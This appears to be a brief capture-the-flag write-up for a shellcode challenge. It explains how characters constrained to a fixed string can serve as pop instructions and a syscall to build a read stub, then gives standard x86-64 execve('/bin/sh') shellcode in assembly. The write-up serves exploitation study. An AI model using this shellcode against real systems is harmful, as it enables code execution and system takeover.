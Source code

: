 ### shellcode
#### A easy shellcode
#### idea
input string must in the string,  `char *s = "ZZJ loves shell_code,and here is a gift:\x0f\05 enjoy it!\n";` and will take over the execution flow. '\x0f\x05' is system, 'Z', '_' is `pop rdi`  and `pop rdx`. You just need to write to read.
```
  pop rdx
  pop rdx
  pop rdx
  pop rdx
  pop rdi
  pop rdi
  syscall
```
and here is a normal shellcode.
```
call here
  .ascii "/bin/sh"
  .byte 0
here:
   pop rdi
   xor rsi,rsi
   xor rdx,rdx
   mov rax,0x3b
   syscall
```  